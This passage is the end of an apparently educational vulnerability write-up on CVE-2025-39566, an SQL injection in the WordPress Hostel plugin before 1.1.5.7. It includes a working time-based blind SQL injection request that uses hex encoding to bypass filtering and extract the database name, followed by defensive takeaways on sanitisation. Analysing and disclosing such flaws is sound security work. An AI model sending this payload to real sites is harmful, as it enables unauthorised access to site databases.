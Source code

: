 Besides `ORD()` we can use **Hex encoding** to bypass:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → database name can be extracted.

![Hex encoding bypass](ord_bypass.png "Bypass succeeds")

## Conclusion

The vulnerability **CVE-2025-39566** in the WordPress **Hostel** plugin (versions prior to **1.1.5.7**) stems from inserting user-supplied input directly into an SQL query without adequate safeguards, leading to SQL Injection.

**Key takeaways**:

* `sanitize_text_field()` ≠ protection against **SQL Injection**
* Distinguish clearly between input cleaning for HTML contexts and validation/sanitization for SQL contexts

## References

[SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Hostel Plugin <= 1.1.5.6 is vulnerable to SQL Injection - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-1-1-5-6-sql-injection-vulnerability?_s_id=cve)

---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-21-cve-2025-39566/  

